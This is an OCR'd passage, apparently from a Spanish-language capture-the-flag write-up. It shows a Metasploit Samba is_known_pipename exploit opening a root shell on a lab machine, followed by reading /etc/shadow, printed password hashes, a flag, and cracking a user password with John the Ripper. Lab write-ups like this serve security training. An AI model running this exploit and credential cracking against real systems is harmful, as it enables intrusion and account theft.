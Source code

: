 ```
msf6 exploit(linux/samba/is_known_pipename) > exploit
[*] 10.10.131.159:44544 - Using location \\10.10.131.159\nebula_share\ for the path
[*] 10.10.131.159:44544 - Retrieving the remote path of the share 'nebula_share'
[*] 10.10.131.159:44544 - Share 'nebula_share' has server-side path '/srv/samba/share
[*] 10.10.131.159:44544 - Uploaded payload to \\10.10.131.159\nebula_share\QyjOomPF.so
[*] 10.10.131.159:44544 - Loading the payload from server-side path /srv/samba/share/QyjOomPF.so using \\PIPE\/srv/samba/share/QyjOomPF.so...
[-] 10.10.131.159:44544 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 10.10.131.159:44544 - Loading the payload from server-side path /srv/samba/share/QyjOomPF.so using /srv/samba/share/QyjOomPF.so...
[+] 10.10.131.159:44544 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 1 opened (10.23.75.205:32921 -> 10.10.131.159:44544) at 2025-04-13 13:06:59 -0400

ls
whoami
root
ls
pwd  
/tmp
cd /root
ls -la

```
Dentro de archivo /etc/passwd encontré otro usuario guakamole,
dentro de /etc/shadow su contraseña cifrada, también encontré hash de la contraseña de root. 

```
guakamole:$6$kVXyIMLn$A6bPHFDkYFqd/dS58eGsJmK2lYnlEQxtgYX6H/6WxdC.V21j/P8IaseqnKibDBq1PkdmRqgPO2CU3dd/
root:$6$dTV9ZkDw$ZULnb36XSMz1fv4LzsGXZnq7FpRx3H6v3CUmD/iySvY4M/9lzVGUVv81ChJsasATlegYJLib8Ciw1/fowpi2s0

```
Flag encontré en un archivo oculto .s3cr3t dentro de la carpeta root, el nombre de este archivo aparecía antes cuando buscaba la información de DNS.

```
GFCS|C0d3-S3cr3t-R00t|

 
```
El password "kamikaze2" de usuario gaukamole he descifrado con herramienta JohnTheRipper.

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
kamikaze2        (?)   
